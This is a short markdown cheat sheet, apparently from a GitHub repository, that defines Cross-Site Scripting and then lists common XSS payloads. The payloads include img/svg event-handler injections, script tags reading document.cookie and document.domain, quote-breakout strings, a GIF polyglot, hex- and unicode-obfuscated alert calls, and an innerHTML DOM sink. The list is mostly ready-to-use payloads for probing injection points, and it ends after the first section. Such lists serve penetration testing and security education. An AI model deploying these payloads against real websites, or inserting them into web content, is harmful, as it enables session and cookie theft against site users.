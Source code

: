 # 🛡️ Cross-Site Scripting (XSS)  

## 🔹 What is XSS?  
Cross-Site Scripting (XSS) is a web security vulnerability that allows attackers to inject malicious scripts into trusted websites.  

---

## 🚀 **Common XSS Payloads**  

### ✅ **Basic XSS Payloads**  
```html
<img src=x onerror=alert(100)>
<svg onload=alert(1)>
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>

<script>alert(document.cookie)</script>
"><script>alert(document.domain)</script>
'"><script>alert("XSS")</script>

GIF89a/<svg/onload=alert(1)>/=alert(document.domain)//;
je2f7'%3e%3cscript%3ealert(document.cookie)%3c%2fscript%3ebr9lq
enypcpv"onload="alert(1)"nnyfb

<script>eval('\x61\x6c\x65\x72\x74\x28\x31\x29')</script>
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>

document.write("<img src=x onerror=alert(1)>")
var XSS = document.URL;
document.body.innerHTML = XSS;


